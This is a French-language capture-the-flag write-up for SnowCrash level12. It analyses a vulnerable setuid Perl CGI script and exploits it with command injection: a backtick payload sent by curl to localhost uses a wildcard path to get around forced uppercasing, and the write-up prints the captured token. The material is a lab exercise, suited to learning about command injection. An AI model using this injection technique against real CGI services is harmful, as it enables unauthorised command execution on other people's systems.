 # 12 - Perl exploit: user input

- On se connecte en tant que level12.
```
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

- Un script perl nous a été laissé:
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

- Ce script semble être conçu pour être exécuté par un [CGI](https://fr.wikipedia.org/wiki/Common_Gateway_Interface) à travers un service écoutant sur localhost à travers le port 4646. Il prend deux paramètres qui sont passés à la fonction `t()`, le retour de cette dernière est utilisé pour `print()` un message en conséquence.


- La fonction `t()` va transformer tous les caractères minuscules contenus dans son premier paramètre en majuscules, puis elle va effacer tous les caractères suivant un espace. La chaîne résultante (`$xx`) sera utilisée par `egrep "^$xx" /tmp/xd 2>&1`.


- `$xx =~ tr/a-z/A-Z/;` fait que nous ne pouvons pas directement envoyer `x=;getflag>/tmp/level12.flag` car tous nos caractères seront transformés en majuscules, du coup:
```
level12@SnowCrash:~$ ss -tunlp | grep 4646
tcp    LISTEN     0      128                   :::4646                 :::*
```

```
level12@SnowCrash:~$ echo "getflag > /tmp/level12.flag" > /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

```
level12@SnowCrash:~$ curl -X POST -d "x=\`/*/EXPLOIT\`" http://127.0.0.1:4646
```

```
level12@SnowCrash:~cat /tmp/level12.flag46
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

```
level12@SnowCrash:~$ su level13
Password:g1qKMiRpXf53AWhDaU7FEkczr
level13@SnowCrash:~$
```
